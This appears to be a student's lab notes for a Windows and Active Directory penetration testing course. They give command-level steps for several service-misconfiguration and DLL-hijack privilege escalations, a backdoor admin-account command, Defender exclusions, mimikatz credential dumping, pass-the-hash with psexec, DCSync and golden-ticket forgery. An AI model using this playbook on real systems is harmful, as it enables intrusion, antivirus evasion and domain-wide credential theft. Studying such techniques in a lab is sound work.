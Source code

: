 >>> general

1) orientation
> ip's and names (hostname, dc-name, etc.) might be outdated for skills test
> use angry ip scanner if available
> look for services without description
> look for services with unquoted service paths
> look for services running as a named user account
> check "C:\Windows\Tasks Migrated" for weakly named tasks (single word names)
> check "\HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\regsvc" (imagepath edit)
> use "accesschk -uwvc "normaluser" *" (daclsvc)

2) files to download
> bat2exe
> sysinternals suite (contains multiple good tools)
> mimikatz
> mike's dll + C code from OneDrive (if dll hijack)

3) commands
> whoami (check current user in terminal)
> dir (list directory contents)
> net user (see users on machine)
> hostname (local domain name)
> echo %logonserver% (domain controller name)
> echo %path% (check path variables for dll hijack)

4) add user command
> net user Helpdesk L3tm3!n /add && net localgroup administrators Helpdesk /add

__________________________________________________________________________________________
__________________________________________________________________________________________
__________________________________________________________________________________________


>>> privilege escalation methods

1) remote mouse
> click on green icon bottom right
> settings
> under image transfer folder click "Change..."
> click OK if prompted with error
> go to C:\Windows\System32 and type "cmd"
> right click cmd -> open (opens system cmd)
> [add user command]

2) unquoted service path
> open services
> sort by description, so services without a description appear on top
> check if "path to executable:" has spaces and no quotes
> example -> C:\Program Files\Unquoted Path Service\Common Files\unquotedpathservice.exe
> look for writable directory, for example C:\Program Files\Unquoted Path Service
> services always expect an executable (.exe)
> create folder on desktop
> create batch file (.bat) with "[add user command]"
> place batch file inside folder
> use bat2exe on that folder (run bat2exe from cmd)
> rename to common.exe (for this example ofc)
> place exe in C:\Program Files\Unquoted Path Service
> run service
> net user in cmd to check if user is added
> if not, restart machine, run service and check again
> if you have executable rights, maybe run exe from cmd, who knows

3) weak file permission services
> example from lab: C:\Program Files\File Permissions Service\filepermservice.exe
> "filepermservice.exe" can be renamed
> check steps above to make own exe
> place exe inside C:\Program Files\File Permissions Service
> rename old .exe to whatever
> name your own exe to "filepermservice.exe"
> start service
> net user in cmd to check if user is added

4) weak registry permissions (regsvc)
> open registry editor
> go to \HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\regsvc
> right click on imagepath -> select modify
> edit the value data so it points to an exe you control, or
> with bat2exe you can make a .exe that that adds an administrative user (see the notes above)
> open services
> look for the service that has the modified image path as the "path to executable"
> run the service

5) scheduled task
> "C:\Windows\Tasks Migrated" may contain tasks you can exploit / configure
> example from lab: pinger
> "C:\Windows\Tasks Migrated" contained the task "pinger"
> open task scheduler
> the "tasks migrated" folder shouldn't be in the folder tree
> go to action -> import task
> select "all files" on bottom right
> navigate to "C:\Windows\Tasks Migrated"
> open "pinger" or whatever task looks weak (only one word for example)
> go to triggers and see what triggers it
> go to action to see what it does and what file it triggers (.bat for example)
> check if the file is renamable and if the directory is writable
> rename the file to whatever
> place your own file (add administrative user through a batch file)

> open task in notepad (easier method than opening in task scheduler)

6) DACL service
> go to services
> check if there is a dacl service (daclsvc)
> open cmd
> go to where you stored your sysinternals
> accesschk -uwvc "normaluser" *
> it might say "RW daclsvc" (should mean you have read/write rights for the service actions listed)
> sc config daclsvc binpath="cmd /c cmd.exe /c net user Helpdesk L3tm3!n /add && net localgroup administrators Helpdesk /add"
> run the service
> might have to do the sc command multiple times and run the service again

7) dll hijack
> last resort for privilege escalation
> go to services
> there may be a service that indicates a dll hijack
> go to the properties of the service to see the path and name of the .exe it calls
> copy the .exe to your own machine (drag n drop or shared folder)
> open cmd on own machine
> sc create ServiceName binPath= "C:\temp\name.exe" (insert name of .exe)
> run service you made
> open procmon (from sysinternals) on own machine
> click on filter icon (ctrl+L) and add the following 2 filters:
> [result] [is] [NAME NOT FOUND] -> click add
> [path] [ends with] [.dll] -> click add
> click ok
> click on process name to sort
> if the .exe and its dll have multiple entries (like 5+), the %path% variable might be used
> note down the name of the dll
> go back to the VM and open cmd
> echo %path%
> look if there is a writable directory listed (like C:\temp)
> go back to own machine
> download Mike's dll + C code from OneDrive if not done yet
> note down the the fake admin credentials after opening his C code in notepad
> rename dll to the name you noted down earlier
> copy dll to the VM
> place dll inside the directory you found in %path%
> run service
> net user in cmd to check if it worked

__________________________________________________________________________________________
__________________________________________________________________________________________
__________________________________________________________________________________________


>>> static steps after local priv escalation

1) defender exclusion:
> defender icon on bottom right (or type virus and threat protection in search)
> virus and threat protection
> manage settings
> add or remove exclusions
> use fake admin login (".\" for local account)
> add exclusion (folder)
> select c drive

2) download mimikatz/sysinternals
> store in c:\temp for easy access
> same with sysinternals suite

3) administrator hash
> open cmd with fake admin
> cd C:\temp\mimikatz_trunk\x64
> mimikatz
> privilege::debug
> sekurlsa::logonpasswords
> copy ntlm hash from administrator (session:service from 0)

4) priv escalation
> sekurlsa::pth /user:administrator /domain:win10client /ntlm:hash
> dir \\192.168.56.30\c$ (to double check privilege)
> cd C:\temp\SysinternalsSuite
> psexec -r name \\192.168.56.30 cmd

5) admin machine
> whoami (should be administrator)
> cd C:\
> md temp (create temp dir)
> dir (check if temp directory was created
> powershell
> set-mppreference -exclusionpath C:\temp
> (get-mppreference).exclusionpath -> checks the exluded paths
> exit (exits out of PS)
> cd temp
> type "mimikatz" (do not run yet)

6) copying mimikatz to admin machine
> go to original mimikatz cmd (or open new one)
> sekurlsa::pth /user:administrator /domain:win10client /ntlm:hash
> in the new cmd window
> net use x: \\192.168.56.30\c$
> x:
> cd temp
> get ready to switch to admin window from step 5
> copy C:\temp\mimikatz_trunk\x64\*.* .
> immediately run mimikatz on admin machine
> successful if mimikatz is visible on admin machine

7) grab domain admin hash
> privilege::debug
> sekurlsa::logonpasswords
> copy domain admin hash (should be the first one)
> let teacher know if domain admin (domad) doesn't show up

8) dcsync on domain controller
> close both admin cmd windows (you dont need them anymore)
> go to original mimikatz cmd (or open new one)
> sekurlsa::pth /user:domad /domain:adlab.local ntlm:hash
> dir \\192.168.56.10\c$
> cd C:\temp\SysinternalsSuite
> mimikatz
> privilege::debug
> lsadump::dcsync /domain:adlab.local /all /csv
> copy krbtgt

9) golden ticket
> open a normal cmd windows
> whoami /user - copy everyting except last 4 digits
> go to mimikatz
> kerberos::golden /domain:adlab.local /sid:S-1-5-21-3704816349-2630934885-840893638 /rc4:cc326e8519157da4bf8ef543b8680dc3 /user:abcdef /id:500 /ptt

> or.. save for later
> kerberos::golden /domain:adlab.local /sid:S-1-5-21-3704816349-2630934885-840893638 /rc4:cc326e8519157da4bf8ef543b8680dc3 /user:abcdef /id:500 /ptt
> kerberos::ptt ticket.kirbi
> misc::cmd

> dir \\win2019dc\c$
